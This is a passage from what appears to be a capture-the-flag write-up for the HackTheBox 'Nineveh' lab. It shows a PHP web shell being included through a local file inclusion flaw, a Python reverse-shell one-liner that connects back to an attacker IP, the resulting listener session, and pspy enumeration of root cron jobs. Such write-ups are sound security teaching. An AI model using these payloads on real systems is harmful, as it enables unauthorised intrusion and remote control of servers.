 Since we know that our database is stored as a file called `/var/tmp/hack.php` and contains `<?php system($_REQUEST["cmd"]) ?>` somewhere in its contents, what happens if we use the `LFI` vulnerability and include the database ? If we visit `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../var/tmp/hack.php&cmd=id`, we will see that our `id` command was executed!

![](/assets/images/nineveh15.png)

Since we can execute any commands, we can just start a `python3` reverse shell by visiting `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../var/tmp/hack.php&cmd=python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`

We will then receive a connection on our `nc` listener that we setup beforehand.

```bash
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.43] 54210
www-data@nineveh:/var/www/html/department$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Enumeration (2)

In the root directory there was a folder called `/report`. We see some text files with names that end with timestamp and these timestamps happen to be very recent. This is clear evidence there might be an automated task being executed here at every minute.

```bash
www-data@nineveh:/var/www/html/department$  ls -al /report
total 24
drwxr-xr-x  2 amrois amrois 4096 Jan 14 00:01 .
drwxr-xr-x 24 root   root   4096 Jul  2  2017 ..
-rw-r--r--  1 amrois amrois 4807 Jan 14 00:00 report-21-01-14:00:00.txt
-rw-r--r--  1 amrois amrois 4807 Jan 14 00:01 report-21-01-14:00:01.txt
```

To monitor for new processes, we can use `pspy`. After uploading it from our attacker machine via `HTTP` and running it, we see some interesting commands being executed as `root`.
```
www-data@nineveh:/var/www/html/department$ /tmp/pspy64
...
2021/01/14 00:17:03 CMD: UID=0    PID=24892  | /bin/sh /usr/bin/chkrootkit 
2021/01/14 00:17:03 CMD: UID=0    PID=24898  | /bin/bash /root/vulnScan.sh 
...
```
